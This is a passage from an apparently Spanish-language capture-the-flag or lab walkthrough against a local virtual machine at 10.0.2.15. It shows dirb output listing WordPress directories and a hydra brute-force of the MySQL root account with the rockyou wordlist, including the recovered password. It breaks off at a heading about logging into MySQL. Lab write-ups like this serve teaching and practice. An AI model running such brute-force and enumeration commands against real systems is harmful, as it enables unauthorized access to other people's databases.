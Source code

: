 ```shell
+ http://10.0.2.15/wordpress/wp-content/themes/index.php (CODE:200|SIZE:0)                                                                                                                                                                                                                                                
                                                                                                                                                                                                                                                                                                                          
---- Entering directory: http://10.0.2.15/wordpress/wp-content/upgrade/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                                                                                                                                                                                                          
---- Entering directory: http://10.0.2.15/wordpress/wp-content/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Mon Jul 15 13:50:35 2024
DOWNLOADED: 36896 - FOUND: 13
```

Ya tenemos por donde empezar.



### Reflexión: No te detengas

Paramos aquí.... viene un consejo.

Lo he dicho en otros posts, no tenemos que ir a lo loco, pero sí "por faena". Mientras se está realizando un escaneo, como el anterior de `dirb`, podemos ir realizando pruebas. Teníamos los puertos 22 y 3306 abiertos. Lanzamos un `hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://10.0.2.15`, y mientras documento el `dirb` anterior, me encuentro una sorpresa:

```shell
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://10.0.2.15
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-15 14:19:10
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://10.0.2.15:3306/
[3306][mysql] host: 10.0.2.15   login: root   password: cassandra
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-15 14:19:27
```

:)

Dejamos apartado el Wordpress y vamos a acceder como root en MySQL.



### Acceso a MySQL

